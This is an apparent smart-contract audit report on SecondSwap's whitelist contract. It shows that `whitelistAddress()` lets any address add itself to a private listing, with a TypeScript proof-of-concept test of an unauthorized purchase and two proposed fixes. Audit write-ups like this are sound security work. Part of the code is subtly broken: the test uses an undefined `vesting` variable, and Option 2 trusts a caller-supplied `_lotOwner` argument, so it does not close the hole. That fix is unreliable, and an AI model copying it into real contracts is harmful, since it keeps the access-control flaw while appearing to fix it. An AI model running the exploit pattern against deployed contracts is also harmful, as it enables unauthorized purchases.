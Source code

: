 
## Unrestricted Access to Whitelist Functionality Allows Unauthorized Private Listing Purchases  
**Medium**  

## Finding Description and Impact  

## Root Cause  
The `whitelistAddress()` function in the smart contract allows any user to self-add themselves to the whitelist without any additional authorization or approval mechanism. This fundamentally breaks the intended access control for private listings.  

## Technical Details  
In the provided code snippet:  

```solidity
function whitelistAddress() external {
    require(totalWhitelist < maxWhitelist, "SS_Whitelist: Reached whitelist limit"); 
    require(userSettings[msg.sender] == false, "SS_Whitelist: User is whitelisted"); 

    userSettings[msg.sender] = true;
    totalWhitelist++;
    emit WhitelistedAddress(totalWhitelist, msg.sender);
}
```
### Key vulnerabilities:  
- No owner/administrator approval required  
- Any address can self-whitelist  
- No additional verification or permission checks  

## Potential Impact  
- Compromises the privacy and exclusivity of private listings  
- Allows unauthorized users to bypass intended access restrictions  
- Reduces the effectiveness of the whitelist mechanism  
- Potential financial risks if private sales are meant to be strictly controlled  

## Proof of Concept  
The provided test case demonstrates the vulnerability:  
- User2 can independently add themselves to the whitelist  
- No approval from the lot owner or administrator is required  
- The self-whitelist function succeeds without additional authorization  

## Proof of Concept Walkthrough  
1. Create a private listing with a whitelist  
2. Demonstrate that any user can add themselves to the whitelist  
3. Validate purchase by the self-added user  
4. Confirm bypassing of intended access controls  

## Code  
Paste the following code into the `Marketplace.test.ts` file:  

```typescript
it.only("allows unauthorized self-whitelisting and purchase of private listings", async function () {
    const { marketplace, token, user1, user2 } = await loadFixture(deployProxyFixture);

    const amount = parseEther("100");
    const cost = parseEther("75");
    const maxWhitelist = 1;
    const privateListing = true;

    // User1 creates the private listing
    await token.write.approve([marketplace.address, parseEther("1000")], { account: user1.account });
    const tx = await marketplace.write.listVesting(
        [vesting.address, amount, cost, BigInt(10), 0, 2, BigInt(maxWhitelist), token.address, parseEther("1"), privateListing],
        { account: user1.account }
    );

    const receipt = await hre.viem.getPublicClient().waitForTransactionReceipt({ hash: tx });
    const whitelistEvent = receipt.logs.find(log => log.topics[0] === keccak256(toHex("WhitelistCreated(...)")));
    const whitelistAddress = decodeEventLog({ abi: marketplace.abi, data: whitelistEvent.data, topics: whitelistEvent.topics }).args.whitelistAddress;

    const whitelistContract = await hre.viem.getContractAt("SS_Whitelist", whitelistAddress);

    // Unauthorized user2 adds themselves to the whitelist
    await whitelistContract.write.whitelistAddress({ account: user2.account });

    // Validate that user2 is now whitelisted
    expect(await whitelistContract.read.validateAddress([user2.account.address], { account: user2.account })).to.equal(true);

    // User2 purchases the private listing
    await token.write.mint([user2.account.address, parseEther("100000")]);
    await token.write.approve([marketplace.address, parseEther("100000")], { account: user2.account });
    await marketplace.write.spotPurchase([vesting.address, BigInt(0), parseEther("100"), whitelistContract.address], { account: user2.account });
});
```

## Recommended Mitigation Steps  

### Option 1: Owner-Based Approval  

```solidity
function whitelistAddress(address _userToWhitelist) external onlyOwner {
    require(totalWhitelist < maxWhitelist, "SS_Whitelist: Reached whitelist limit"); 
    require(userSettings[_userToWhitelist] == false, "SS_Whitelist: User is already whitelisted"); 

    userSettings[_userToWhitelist] = true;
    totalWhitelist++;
    emit WhitelistedAddress(totalWhitelist, _userToWhitelist);
}
```

### Option 2: Lot Owner Approval  

```solidity
function whitelistAddress(address _userToWhitelist, address _lotOwner) external {
    require(msg.sender == _lotOwner, "SS_Whitelist: Only lot owner can whitelist");
    require(totalWhitelist < maxWhitelist, "SS_Whitelist: Reached whitelist limit"); 
    require(userSettings[_userToWhitelist] == false, "SS_Whitelist: User is already whitelisted"); 

    userSettings[_userToWhitelist] = true;
    totalWhitelist++;
    emit WhitelistedAddress(totalWhitelist, _userToWhitelist);
}
```

## Links to Affected Code  
[SecondSwap_Whitelist.sol#L52-L65](https://github.com/code-423n4/2024-12-secondswap/blob/214849c3517eb26b31fe194bceae65cb0f52d2c0/contracts/SecondSwap_Whitelist.sol#L52-L65)  

---
